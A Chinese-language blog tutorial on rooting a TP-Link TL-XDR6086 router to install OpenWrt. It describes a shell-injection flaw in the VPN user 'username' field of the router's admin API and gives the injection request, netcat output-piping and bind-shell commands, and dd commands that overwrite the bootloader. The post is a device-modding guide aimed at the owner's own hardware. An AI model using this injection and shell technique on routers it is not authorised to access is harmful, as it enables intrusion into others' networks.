 ```yaml
---
title: 'TP-Link TL-XDR6086 刷机原理和教程'
description: '利用 L2TP 服务器删除时的 shell 注入漏洞刷 OpenWrt'
pubDate: 'Aug 29 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
---
```


为了满足：

1. 可以刷 OpenWrt
2. 内置天线，体积较小
3. 有 2.5 网口
4. CPU 够用

的需求，从 OpenWrt 支持设备列表中找到了 TP-Link TL-XDR6086，搞了一个，开始折腾。

恩山论坛上有挺多刷机教程，不过我最开始直接照着做发现基本上都不行，于是研究了一下原理，自己折腾。

基本上是抄的 [OpenWrt 教程](https://openwrt.org/toh/tp-link/xdr-6086)

## 常识科普

通常来说，路由器是不能刷机的。路由器的刷机类似于手机的 Root，都是利用系统漏洞获得本不应该获得的权限。

如果你按照这篇文章的方法一比一照做刷成砖了，和我没有半毛钱关系。 It works on my machine. （你猜为什么我博客没有留评论区。）

很多路由器厂商 ~甚至是 nas 厂商~ 的系统都是基于 OpenWrt 的，其中也包括 TP-Link 和小米，这也是为什么我们能知道什么命令在里面可以运行。

你**应该**在 [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086) 查找设备信息，**而不是**在百度、CSDN、恩山论坛或者什么其他地方。

你可以从 [OpenWrt 预编译的包](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) 中下载软件包，而不必在论坛或者 CSDN 里面找别人分享的傻逼百度盘链接。

刷机过程假设你用的是 Linux（或者 Mac），如果你用的是 Windows，爬。

## 漏洞原理

调用`http://192.168.1.1/stok=${STOK}/ds`的 API 创建 VPN 时，有一个地方可以注入 Shell 命令。

> 在进入管理页面之后，F12 查看 API 调用，从 url 里面截取出`${STOk}`

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; 在这里注入命令&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> 举个例子，如果你想要注入`echo 'fuck you'`，`username`就是`;echo 'fuck you'&`

此时，命令录入了路由器的数据库，**当删除这个 VPN 用户时，命令执行**。

## 刷机过程

用 u 盘刷机方案。我不知道为什么简中社区流传很广的方案是用 tftp 去开 server 然后让路由器通过 tftp 去拉取。为此，Windows 用户甚至需要装一个 WSL，这实在是太傻逼了。

首先，[下载`netcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/)，然后放到 FAT32 文件系统的 u 盘里面。最好重命名成 netcat.ipk，方便输入命令。

### 挂载 u 盘和 shell 反射

首先，注入，创建文件夹

```sh
mkdir /tmp/usb
```

然后，在电脑那里，创建 netcat 监听

```sh
nc -l -p 4444
```

> netcat 是一个网络调试工具，也经常被用来做 shell 反射。
> 
> 在电脑上创建 netcat 监听，然后让路由器通过`nc`命令，向电脑的 netcat 发送命令输出，就能看到 webshell 命令执行的结果了。
>
> 如果路由器安装好了 netcat，也可以反过来，让路由器的 netcat 监听电脑的输入。通过`netcat`命令，将电脑发出的 shell 命令传递到`sh`，并将结果通过`nc`命令发送到电脑，实现 shell 反射。

之后，就能得到 shell 的输出了，例如注入这个可以显示有没有成功创建文件夹。其中`192.168.1.100`应该是你的电脑的 ip 地址。

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

如果成功创建文件夹，则注入以下命令挂载 U 盘。注意，如果你拔出过 u 盘然后再插入，会变成`sda2`,`sda3`每次递增，重启后恢复`sda1`。

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> 如果你不知道 u 盘究竟是什么设备名，可以注入`ls /dev | nc 192.168.1.100 4444`看看

然后，注入这个命令查看是否挂载成功。

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

如果挂载成功，就安装

```sh
opkg install /tmp/usb/netcat.ipk
```

完成安装 netcat 之后，就可以通过 `netcat` 创建反向 shell 了，可以通过电脑的`nc`直接传输命令，不需要注入。

```sh
netcat -lp 4444 | sh
```

### 备份

在路由器端执行

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### 刷入 U-Boot

**危险操作，请务必确定意识清醒！**

根据 [GitHub 上的讨论](https://github.com/hanwckf/immortalwrt-mt798x/issues/207)，u-boot 可以通过 [bl-mt98x 源码](https://github.com/hanwckf/bl-mt798x) 编译或者下载别人编译好的。

**依次**在路由器上执行以下两个命令，务必确保第一个成功之后再执行第二个。文件名可能有出入，但一定是先 bl2 再 fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> 提示：可以通过重定向配合管道运算符输出错误（`2>&1 |`）

设置电脑 ip 地址为静态的 192.168.1.100/24，网关为 198.168.1.1

断电路由器，然后通电，如果正常，则红灯闪烁，进去<http://192.168.1.1>可以看到 u-boot 界面。

![u-boot 界面](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### 安装 OpenWrt

目前 OpenWrt 对 XDR-6086 的支持很差，我在恩山论坛上找到了一个`ImmortalWrt 21.02-SNAPSHOT r0-e1b4487`的 6086 固件才成功安装上。

暂不明确能否二次刷机成自己编译的 OpenWrt，但通过 U-Boot 直接刷入自行编译的 ImmortalWrt 并不能启动。

需要注意的是，XDR-6086 的 CPU 性能似乎不够，在 OpenClash 和 SSR Plus 上都只能跑到 300Mbps.